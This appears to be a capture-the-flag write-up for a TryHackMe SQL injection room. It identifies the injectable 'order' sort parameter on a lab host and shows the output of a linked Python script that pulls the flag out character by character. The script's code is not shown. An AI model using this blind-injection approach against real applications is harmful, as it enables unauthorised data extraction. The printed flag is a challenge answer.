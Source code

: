 Prioritise
   
In this challenge you will explore some less common SQL Injection techniques.

https://tryhackme.com/room/prioritise
We have this new to-do list application, where we order our tasking based on priority! Is it really all that secure, though...?


Adding Item:
http://10.10.149.11/?success=Added%20new%20item


Sorting Items: (Vulnerable to sql)
http://10.10.149.11/?order=title

Here is the Script for python:
source: internet
[PythonScript](./script.py)

┌──(root㉿kali)-[~/temp]
└─# python3 s.py
[+] Current Flag is f
[+] Current Flag is fl
[+] Current Flag is fla
[+] Current Flag is flag
[+] Current Flag is flag{
[+] Current Flag is flag{6
[+] Current Flag is flag{65
[+] Current Flag is flag{65f
[+] Current Flag is flag{65f2
[+] Current Flag is flag{65f2f
[+] Current Flag is flag{65f2f8
[+] Current Flag is flag{65f2f8c
[+] Current Flag is flag{65f2f8cf
[+] Current Flag is flag{65f2f8cfd
[+] Current Flag is flag{65f2f8cfd5
[+] Current Flag is flag{65f2f8cfd53
[+] Current Flag is flag{65f2f8cfd53d
[+] Current Flag is flag{65f2f8cfd53d5
[+] Current Flag is flag{65f2f8cfd53d59
[+] Current Flag is flag{65f2f8cfd53d594
[+] Current Flag is flag{65f2f8cfd53d5942
[+] Current Flag is flag{65f2f8cfd53d59422
[+] Current Flag is flag{65f2f8cfd53d59422f
[+] Current Flag is flag{65f2f8cfd53d59422f3
[+] Current Flag is flag{65f2f8cfd53d59422f3d
[+] Current Flag is flag{65f2f8cfd53d59422f3d7
[+] Current Flag is flag{65f2f8cfd53d59422f3d7c
[+] Current Flag is flag{65f2f8cfd53d59422f3d7cc
[+] Current Flag is flag{65f2f8cfd53d59422f3d7cc6
[+] Current Flag is flag{65f2f8cfd53d59422f3d7cc62
[+] Current Flag is flag{65f2f8cfd53d59422f3d7cc62c
[+] Current Flag is flag{65f2f8cfd53d59422f3d7cc62cc
[+] Current Flag is flag{65f2f8cfd53d59422f3d7cc62cc8
[+] Current Flag is flag{65f2f8cfd53d59422f3d7cc62cc8f
[+] Current Flag is flag{65f2f8cfd53d59422f3d7cc62cc8fd
[+] Current Flag is flag{65f2f8cfd53d59422f3d7cc62cc8fdc
                                                              
